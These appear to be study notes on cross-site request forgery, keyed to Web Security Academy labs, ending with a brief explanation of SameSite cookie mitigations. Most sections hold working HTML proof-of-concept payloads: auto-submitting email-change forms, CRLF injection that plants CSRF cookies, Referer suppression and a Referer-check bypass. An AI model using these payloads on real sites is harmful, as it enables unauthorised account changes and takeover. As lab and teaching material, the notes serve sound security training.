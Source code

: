 ### No Defense
```html
<form method="POST" action="https://ac741ff11f938fe1801459c7009e0090.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="test@myemail.com">
</form>
<script>
document.forms[0].submit();
</script>
```

***

### CSRF where token validation depends on request method
#### Test
- Change request method
#### POC
```html
<img src="https://ac9a1f8f1e76e13f80360e0e009400d7.web-security-academy.net/my-account/change-email?email=test%40myemail.com">
```

***

### CSRF where token validation depends on token being present
#### Test
- Remove token from request and see if it passes
#### POC
```html
<form method="POST" action="https://ac741ff11f938fe1801459c7009e0090.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="test@myemail.com">
</form>
<script>
document.forms[0].submit();
</script>
```

***

### CSRF where token is not tied to user session
#### Test
- Get a fresh csrf token from the update email page via inspecting the source
- Open a private/incognito browser window, log in to your other account, and intercept the update request
- replace the csrf token with the one captured earlier
#### POC
```html
<form method="POST" action="https://ac001fe61f576f3b808b0f7100fd0037.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="test@myemail.com">
    <input type="hidden" name="csrf" value="KdhHWIn09SrZyjySlgfaHCS9TzXB0iss">  
    </form>
    <script>
    document.forms[0].submit();
    </script>
```

***

### CSRF where token is tied to non-session cookie
#### Test
- changing the session cookie logs you out, but changing the csrfKey cookie merely results in the CSRF token being rejected. This suggests that the csrfKey cookie may not be strictly tied to the session. 
- Observe that if you swap the csrfKey cookie and csrf parameter from the first account to the second account, the request is accepted.
- search for endpoints that gets reflected in the Set-Cookie header
- use CRLF injection to inject new cookie
#### POC
```html
<form method="POST" action="https://aca51fb61ff988aa803fa9cd003f0079.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="test@myemail.com">
    <input type="hidden" name="csrf" value="xe5r3sdRe2Ceizmo4blfpy02UKxpN03k">  
    </form>
    <img src="https://aca51fb61ff988aa803fa9cd003f0079.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=jGDyLoTZDIE2A47Chp2F9MjrjDNHdnHI" onerror="document.forms[0].submit()"> 
```

*** 

### CSRF where token is duplicated in cookie
#### Test
- Check if csrf token is validated against cookie
- Search for a point where cookie value gets reflected
#### POC
```html
<form method="POST" action="https://ac951f4f1e9fceda80912065008000ac.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="sasdasdasd@myemail.com">
    <input type="hidden" name="csrf" value="fake">  
    </form>
    <img src="https://ac951f4f1e9fceda80912065008000ac.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake" onerror="document.forms[0].submit()"> 
```

***

### CSRF where Referer validation depends on header being present
#### Test
- Check if the referer header is checked and used as CSRF mitigation
#### POC
```html
<meta name="referrer" content="no-referrer"> 
<form method="POST" action="https://ac081f091ee034ef802e1dbd00d60000.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="sasdasdasd@myemail.com">
</form>
<script>
       document.forms[0].submit();
</script>
```

***

### CSRF with broken Referer validation
#### Test 
- Does the website seems to accept any Referer header as long as it contains the expected domain somewhere in the string?
#### POC
```html
<form method="POST" action="https://acc21f351e145baf809bc06c00b30072.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="sasdasdasd@myemail.com">
    </form>
<script>
    history.pushState("", "", "/?acc21f351e145baf809bc06c00b30072.web-security-academy.net");
       document.forms[0].submit();
</script>
```

***

## Mitigations
### Same Site Cookie
- The **`SameSite`** attribute of the [`Set-Cookie`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie) HTTP response header allows you to declare if your cookie should be restricted to a [first-party](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#third-party_cookies) or same-site context.
- A cookie is associated with a domain. If this domain is the same as the domain of the page you are on, the cookie is called a _first-party cookie_. If the domain is different, it is a _third-party cookie_.
-  the server hosting a web page sets first-party cookies, the page may contain images or other components stored on servers in other domains (for example, ad banners), which may set third-party cookies
-  These are mainly used for advertising and tracking across the web.

### Types
- Lax: When you set a cookie' SameSite attribute to Lax, the cookie will be sent along with the GET request initiated by third party website.
	- Resources can be loaded by iframe, img tags, and script tags. These requests can also operate as GET requests, but none of them cause TOP LEVEL navigation. Basically, they don't change the URL in your address bar. Because these GET requests do not cause a TOP LEVEL navigation, thus cookies set to Lax won't be sent with them.
- Strict: Cookies will only be sent in a first-party context and not be sent along with requests initiated by third party websites.
- None: Cookies will be sent in all contexts